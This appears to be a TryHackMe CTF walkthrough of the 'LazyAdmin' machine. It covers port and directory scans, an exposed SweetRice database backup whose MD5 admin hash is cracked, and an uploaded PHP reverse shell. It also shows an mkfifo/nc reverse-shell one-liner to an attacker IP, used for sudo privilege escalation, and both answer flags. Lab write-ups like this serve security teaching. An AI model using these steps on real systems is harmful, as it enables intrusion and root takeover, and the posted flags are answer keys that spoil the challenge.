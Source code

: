 # LazyAdmin

Easy linux machine to practice your skills

[LazyAdmin](https://tryhackme.com/room/lazyadmin)

## Topic's

* Network Enumeration
* Web Enumeration
* Backup Poking
* Brute Forcing (Hash)
* Misconfigured Binaries

## Task 1 Lazy Admin

Have some fun! There might be multiple ways to get user access.

`Note: It might take 2-3 minutes for the machine to boot`

```
kali@kali:~/CTFs/tryhackme/LazyAdmin$ sudo nmap -A -sS -sC -sV -O 10.10.230.157
[sudo] password for kali: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-14 18:57 CEST
Nmap scan report for 10.10.230.157
Host is up (0.061s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/14%OT=22%CT=1%CU=33945%PV=Y%DS=2%DC=T%G=Y%TM=5F872E
OS:0B%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=B)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)EC
OS:N(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT      ADDRESS
1   72.64 ms 10.8.0.1
2   72.70 ms 10.10.230.157

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.74 seconds
```

```
kali@kali:~/CTFs/tryhackme/LazyAdmin$ sudo /opt/dirsearch/dirsearch.py -u 10.10.230.157 -w /usr/share/dirb/wordlists/common.txt -e html,php

  _|. _ _  _  _  _ _|_    v0.4.0
 (_||| _) (/_(_|| (_| )

Extensions: html, php | HTTP method: GET | Threads: 20 | Wordlist size: 4613

Error Log: /opt/dirsearch/logs/errors-20-10-14_18-58-34.log

Target: 10.10.230.157

Output File: /opt/dirsearch/reports/10.10.230.157/_20-10-14_18-58-34.txt

[18:58:34] Starting: 
[18:58:39] 301 -  316B  - /content  ->  http://10.10.230.157/content/
[18:58:41] 200 -   11KB - /index.html
[18:58:45] 403 -  278B  - /server-status

Task Completed
```

[http://10.10.230.157/content/](http://10.10.230.157/content/)

![](./2020-10-14_18-59.png)

```
Welcome to SweetRice - Thank your for install SweetRice as your website management system.
This site is building now , please come late.

If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website.

More help at Tip for Basic CMS SweetRice installed
```

```
kali@kali:~/CTFs/tryhackme/LazyAdmin$ sudo /opt/dirsearch/dirsearch.py -u 10.10.230.157/content -w /usr/share/dirb/wordlists/common.txt -e html,php
[sudo] password for kali: 

  _|. _ _  _  _  _ _|_    v0.4.0
 (_||| _) (/_(_|| (_| )

Extensions: html, php | HTTP method: GET | Threads: 20 | Wordlist size: 4613

Error Log: /opt/dirsearch/logs/errors-20-10-14_19-01-38.log

Target: 10.10.230.157/content

Output File: /opt/dirsearch/reports/10.10.230.157/content_20-10-14_19-01-38.txt

[19:01:38] Starting: 
[19:01:39] 301 -  324B  - /content/_themes  ->  http://10.10.230.157/content/_themes/
[19:01:42] 301 -  319B  - /content/as  ->  http://10.10.230.157/content/as/
[19:01:42] 301 -  327B  - /content/attachment  ->  http://10.10.230.157/content/attachment/
[19:01:47] 301 -  323B  - /content/images  ->  http://10.10.230.157/content/images/
[19:01:48] 301 -  320B  - /content/inc  ->  http://10.10.230.157/content/inc/
[19:01:48] 200 -    2KB - /content/index.php
[19:01:48] 301 -  319B  - /content/js  ->  http://10.10.230.157/content/js/

Task Completed
```

LOGIN: [http://10.10.230.157/content/as/](http://10.10.230.157/content/as/)

[http://10.10.230.157/content/inc/](http://10.10.230.157/content/inc/)

[http://10.10.230.157/content/inc/mysql_backup/](http://10.10.230.157/content/inc/mysql_backup/)

```sql
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

`42f749ade7f9e195bf475f37a44cafcb	md5	Password123`

`manager:Password123`

[http://10.10.230.157/content/as/?type=media_center](http://10.10.230.157/content/as/?type=media_center)

`http://10.10.230.157/content/attachment/php-reverse-shell.phtml`

```
kali@kali:~/CTFs/tryhackme/LazyAdmin$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.230.157] 55546
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 20:09:00 up 13 min,  0 users,  load average: 0.01, 0.08, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home
$ ls
itguy
$ cd itguy
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```

```
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 9002 >/tmp/f' >/etc/copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl
rm: cannot remove '/tmp/f': No such file or directory
```

```
kali@kali:~/CTFs/tryhackme/LazyAdmin$ nc -lnvp 9002
listening on [any] 9002 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.230.157] 58634
/bin/sh: 0: can't access tty; job control turned off
# id 
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

1. What is the user flag?

`THM{63e5bce9271952aad1113b6f1ac28a07}`

2. What is the root flag?

`THM{6637f41d0177b6f37cb20d775124699f}`
